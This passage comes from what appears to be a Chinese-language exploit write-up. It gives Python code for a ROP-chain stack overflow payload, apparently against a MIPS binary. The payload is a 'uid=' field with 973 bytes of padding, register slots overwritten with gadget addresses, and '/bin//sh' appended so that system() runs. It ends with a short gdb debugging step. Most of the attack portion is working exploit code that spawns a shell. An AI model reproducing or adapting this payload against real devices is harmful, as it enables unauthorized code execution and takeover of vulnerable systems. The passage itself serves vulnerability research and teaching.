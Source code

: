 ```

padding = 'uid=' + 'a' * 973

padding += p32(base_addr + system_addr_1)                              # s0

padding += 'a' * 4                        # s1

padding += 'a' * 4                        # s2

padding += 'a' * 4                              # s3

padding += 'a' * 4                              # s4

padding += p32(base_addr+rop2)               # s5

padding += 'a' * 4                              # s6

padding += 'a' * 4                              # s7

padding += 'a' * 4                              # fp



padding += p32(base_addr + rop1)        # ra



#------------------------- stack 2 ----------------------------

padding += 'b' * 0x10

padding += '/bin//sh'



with open("call_system_padding",'wb') as f:

    f.write(padding)



f.close()
```

### <a name="%E5%8A%A8%E6%80%81%E8%B0%83%E8%AF%95"></a>**动态调试**

依然是使用 gdb 在 0x00409A28 处下断点，第一步先跳转到对 s0 加一的 gadget 处

[![](https://p0.ssl.qhimg.com/t0145e839bc931f0a51.png)](https://p0.ssl.qhimg.com/t0145e839bc931f0a51.png)

